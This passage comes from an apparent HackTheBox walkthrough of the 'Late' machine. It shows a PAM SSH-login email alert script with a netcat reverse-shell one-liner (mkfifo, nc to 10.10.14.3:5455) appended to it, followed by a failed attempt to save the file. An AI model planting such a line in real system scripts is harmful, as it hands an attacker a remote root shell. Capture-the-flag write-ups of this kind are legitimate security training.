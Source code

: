 ```

```bash
#!/bin/bash

RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date`
        Server:      `uname -a`
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi

mkfifo /tmp/f; nc 10.10.14.3 5455 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
``` 

When saving in nano it shows _[ Error writing /usr/local/sbin/ssh-alert.sh: Operation not permitted ]_

<p align="center">
  <img src="/images/walkthroughs/hackthebox/late/6_1_not_write.png" width="90%"/>
</p>
